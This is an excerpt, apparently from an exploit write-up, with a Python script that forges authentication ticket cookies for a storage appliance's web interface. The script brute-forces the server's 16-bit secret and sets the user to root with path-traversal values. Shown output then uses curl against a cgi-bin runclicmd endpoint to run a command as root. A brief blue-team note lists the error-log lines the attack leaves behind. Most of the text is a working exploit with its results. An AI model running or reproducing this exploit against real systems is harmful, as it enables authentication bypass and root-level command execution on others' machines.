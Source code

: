 ```python
    now = '../logs/access_log'
    persists = ''
    expires_when = '99999999999999999999999'    # any value > now
    last = now
    user_name = 'root'

    bvalues = ':'.join((secret, ticket_type, ip_address, now, persists, expires_when, last, user_name)).encode('utf-8')
    hash_val = hashlib.sha1((secret + hashlib.sha1(bvalues).hexdigest()).encode('utf-8')).hexdigest()

    return {'Ticket': 'time&{}&ip&{}&last&{}&idle&{}&hash&{}&user&{}&useraccess&{}&type&{}&persists&{}&expires&{}'.format(now, ip_address, last, '', hash_val, user_name, '', ticket_type, persists, expires_when)}


# MAIN #########################################################################
for i in range(0, 65536):
    cookie = generate_cookie(i)
    r = requests.get('https://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/downloadFile', cookies=cookie, verify=False)
    if '<title>Upload file result</title>' in r.text:
        print('Found server secret value: {}'.format(i))
        print('Here\'s your cookie:')
        print(cookie)
        exit(0)

print('Somehow failed to find the secret value')
exit(1)
```

Run the script (172.27.30.174 is my computer's IP, not the server's):
```
    ./vnx_bf_cookie 172.27.30.174
    Found server secret value: 24794
    Here's your cookie:
    {'Ticket': 'time&../logs/access_log&ip&172.27.30.174&last&../logs/access_log&idle&&hash&03d531180624eb033d36dee94d0c0c01a1943306&user&root&useraccess&&type&User&persists&&expires&99999999999999999999999'}

    curl -k -s 'https://xxxxxxxxxxxxxxxxxxxxxxxxxxxxxx/cgi-bin/runclicmd?command_line=id' --cookie 'Ticket=time&../logs/access_log&ip&172.27.30.174&last&../logs/access_log&idle&&hash&03d531180624eb033d36dee94d0c0c01a1943306&user&root&useraccess&&type&User&persists&&expires&99999999999999999999999'
    uid=0(root) gid=0(root)
    groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

### Blueteam note
The script above will generate thousands of these events in ```/nas/http/logs/ssl_error_log```:
```
[Mon Sep 28 13:45:35 2020] [error] access to /nas/tomcat/webapps/ROOT/downloadFile failed for xx.xx.xx.xx, reason: Message <possibly altered ticket> repeated last 20 times
[Mon Sep 28 13:45:35 2020] [error] access to /nas/tomcat/webapps/ROOT/downloadFile failed for xx.xx.xx.xx, reason: Message <possibly altered ticket> repeated last 20 times
```
